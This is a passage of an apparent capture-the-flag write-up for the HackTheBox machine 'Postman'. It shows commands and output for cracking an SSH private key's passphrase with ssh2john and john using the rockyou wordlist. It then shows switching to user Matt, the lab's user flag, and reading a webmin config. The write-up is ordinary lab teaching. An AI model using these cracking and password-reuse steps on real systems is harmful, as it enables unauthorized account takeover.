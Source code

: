 good old ssh to john and then john with rockyou.

```sh
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# mkdir Matt
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# cd Matt/
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# nano id_rsa.bak
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# /usr/share/john/ssh2john.py id_rsa.bak >> hash
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman/Matt# john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:13 DONE (2020-02-14 13:45) 0.07627g/s 1093Kp/s 1093Kc/s 1093KC/sa6_123..*7¡Vamos!
Session completed
```

ssh in didn't work so i went with `su Matt` and that worked *shrug*, do what you gotta do.


```
redis@Postman:/$ su Matt 
Password: 
Matt@Postman:/$ cd ~
Matt@Postman:~$ cat user.txt 
517ad0ec2458ca97af8d93aac08a2f3c
```

    `517ad0ec2458ca97af8d93aac08a2f3c`


### What the hell is webmin

Ok i had to find out what is going on with the `webmin`, so i had a look at the config file.
it mentions `Matt` a bit so i assume `Matt` has some kinda access.

```sh
Matt@Postman:/etc/webmin$ cat config 
find_pid_command=ps auwwwx | grep NAME | grep -v grep | awk '{ print $2 }'
path=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin
passwd_uindex=0
ld_env=LD_LIBRARY_PATH
tempdelete_days=7
by_view=0
passwd_pindex=1
passwd_mindex=4
passwd_cindex=2
passwd_file=/etc/shadow
os_type=debian-linux
os_version=9.0
real_os_type=Ubuntu Linux
real_os_version=18.04.3
lang=en.UTF-8
log=1
referers_none=1
md5pass=1
theme=authentic-theme
product=webmin
webprefix=
realname_Matt=Matt
```
